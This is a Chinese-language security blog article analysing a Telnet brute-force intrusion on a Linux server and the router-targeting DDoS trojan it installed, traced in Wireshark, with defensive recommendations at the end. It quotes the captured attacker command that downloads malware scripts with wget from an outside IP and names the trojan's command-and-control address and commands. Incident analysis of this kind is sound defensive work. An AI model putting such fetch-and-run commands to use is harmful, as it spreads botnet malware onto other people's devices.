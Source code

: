 # WireShark黑客发现之旅（8）—针对路由器的Linux木马

**Author：Mr.Right、Gongmo**  
**申明：**文中提到的攻击方式仅为曝光、打击恶意网络攻击行为，切勿模仿，否则后果自负。

0x00 前言
=====

路由器木马，其主要目标是控制网络的核心路由设备；一旦攻击成功，其危害性远大于一台主机被控。

如果仅仅在路由器上面防范该类木马，那也是不够的，有很多Linux服务器违规开放Telnet端口，且使用了弱口令，一样可以中招。下面我们就一起来回顾一起真实案例。

0x01 发现异常
=====

在对客户某服务器区域进行安全监测时发现某服务器通信流量存在大量Telnet协议。截取一段数据，进行协议统计：

![p1](http://drops.javaweb.org/uploads/images/c0413a2adb383534d650aaba6d6afe2e4227a4ff.jpg)

Telnet协议一般为路由器管理协议，服务器中存在此协议可初步判断为异常流量。继续进行端口、IP走向统计：发现大量外部IP通过Tcp23端口（Telnet）连接该服务器。

![p2](http://drops.javaweb.org/uploads/images/e33e2a8909b7acc35c85da0a15f745cc8ba84025.jpg)

此统计可说明：

1.  该服务器违规开放了TCP23端口；
2.  该服务器遭到大量Telnet攻击，有可能是暴力破解，也有可能是已经成功连接。

挑选通信量较大的IP，筛选通信双向数据：

![p3](http://drops.javaweb.org/uploads/images/1a685ec74da3d4336ec2e66a25b9cb31dcda26e4.jpg)

查看Telnet数据，发现已经成功连接该服务器。

![p4](http://drops.javaweb.org/uploads/images/55850beb1dfb12c10c9680cbd380714582d718b2.jpg)

数据中还存在大量Telnet扫描探测、暴力破解攻击，在此不再详述。

0x02 获取样本
=====

为进一步查看Telnet通信内容，Follow TcpStream。

![p5](http://drops.javaweb.org/uploads/images/29c795c3fed6ea1e7b0911e9d5229945e718fadc.jpg)

将内容复制粘贴至文本编辑器：

![p6](http://drops.javaweb.org/uploads/images/941c3adc17461f7798a6caf00ddf6c4fcd1870f5.jpg)

发现一段自动下载命令：

```
wget http://208.67.1.42/bin.sh;
wget1 http://208.67.1.42/bin2.sh。

```

连接`http://208.67.1.42/bin.sh`可发现该脚本文件内容为自动下载获取木马，且木马可感染ARM、MIPS、X86、PowerPC等架构的设备。

![p7](http://drops.javaweb.org/uploads/images/71359a7bc5ee5d93f0922cf35a5491e08dba0a36.jpg)

0x03 木马分析
=====

（**注：本章节不属于Wireshark分析范畴，本文仅以jackmyx86分析为例**）

该木马文件是ELF格式的，影响的操作系统包括：

![p8](http://drops.javaweb.org/uploads/images/7bd84ff150b406226c1a846777628a75b8021b24.jpg)

从上图中判断木马下载的类型分别是：Mipsel,misp,x86(其实这个是x64),arm,x86(i586,i686)等。

从截获的`*.sh`文件看，`*.sh`脚本想删除这些目录和内容，并且关闭一些进程。

![p9](http://drops.javaweb.org/uploads/images/5d6ca5e9300b1f0a0d3b3ab20459cf1416342ca4.jpg)

首先得到了一个”Art of war”的字符串（看来黑客是个文艺青年）。

![p10](http://drops.javaweb.org/uploads/images/502eca9327df35b2e172b9ba9b76c84c88445625.jpg)

接着尝试打开路由器配置文件。

![p11](http://drops.javaweb.org/uploads/images/f8c4e08067cfdb6a5b8be0284531e58264b2e781.jpg)

在配置文件里查找字符串00000000，如果找到就直接填充0；

![p12](http://drops.javaweb.org/uploads/images/c3b1e8eb784acff3e912dfe31ddfefb6d5da8f11.jpg)

在初始化函数中：尝试建立socket连接，连接地址为：208.67.1.194:164。

![p13](http://drops.javaweb.org/uploads/images/17eb1b39980580fecd61452a32a7938ce5ad0056.jpg)

尝试连接服务器，等待远端服务器应答。

![p14](http://drops.javaweb.org/uploads/images/c040837f1fa9bb2d8cbb1dc9b37977e15eceb7fc.jpg)

服务器发送“ping”命令后，客户端返回“pong”表示已经连接成功。当发送“GETLOCALIP”后，返回控制端的本机IP。当服务器发送SCANNER后，根据ON或者OFF来控制是否要扫描指定IP，进行暴力破解。当发送“UDP”命令时候，向指定的IP地址发送大量UDP无效数据包。

![p15](http://drops.javaweb.org/uploads/images/e2b176b908e29706954d67480a11050feb100e06.jpg)

![p16](http://drops.javaweb.org/uploads/images/d722f86a2e2b4bdefc1664cdc2365fa2410be7cb.jpg)

![p17](http://drops.javaweb.org/uploads/images/cbaa10c15543be2ebd4fe9403e56a90d2c3a37ff.jpg)

下图是木马尝试获得路由器的用户名和密码匹配，企图暴力破解账户和密码。

![p18](http://drops.javaweb.org/uploads/images/51a46d9d3f187df67493f8e8d60e45e9cfbaa8ab.jpg)

![p19](http://drops.javaweb.org/uploads/images/de63c2e21310ba1a78e7f33ed5197ba309a2f462.jpg)

![p20](http://drops.javaweb.org/uploads/images/e782599233ab756d67398c5f8bf61efc0d45025b.jpg)

在被控制之后，跟随服务器指定的IP，发送大量随机生成的长度为0x400的字符串数据，进行DDOS攻击。下图是发送垃圾数据,进行DDOS攻击。

![p21](http://drops.javaweb.org/uploads/images/da085ba07ec40ececfa5abc66779b09950b7eb72.jpg)

![p22](http://drops.javaweb.org/uploads/images/67cc1bcd6af7b30f347d5399b450193bc02abaf5.jpg)

随机数据生成的伪代码如下：

![p23](http://drops.javaweb.org/uploads/images/6821d6d6f28502ed3814c116a7f3e582462c974d.jpg)

根据网址追溯到攻击者的网页和twitter账号。

![p24](http://drops.javaweb.org/uploads/images/c5ddb63b001e53d5f7346dcc3542672dcc56db96.jpg)

![p25](http://drops.javaweb.org/uploads/images/360a24d3123d1e54d034082b9d1ca8e1eec56072.jpg)

![p26](http://drops.javaweb.org/uploads/images/6de3abb27fdb8a7375622bed17e3265b9133e0d9.jpg)

0x04 总结
=====

1.  路由器的管理如非必须，尽量不开放互联网管理通道
2.  路由器管理密码必须强口令、最好超强
3.  Linux服务器一般不要打开Telnet服务
4.  该木马一般利用爆破和漏洞来攻击路由器或开启Telnet服务的Linux服务器，中招后接受木马作者的控制，最后进行大量DDOS攻击
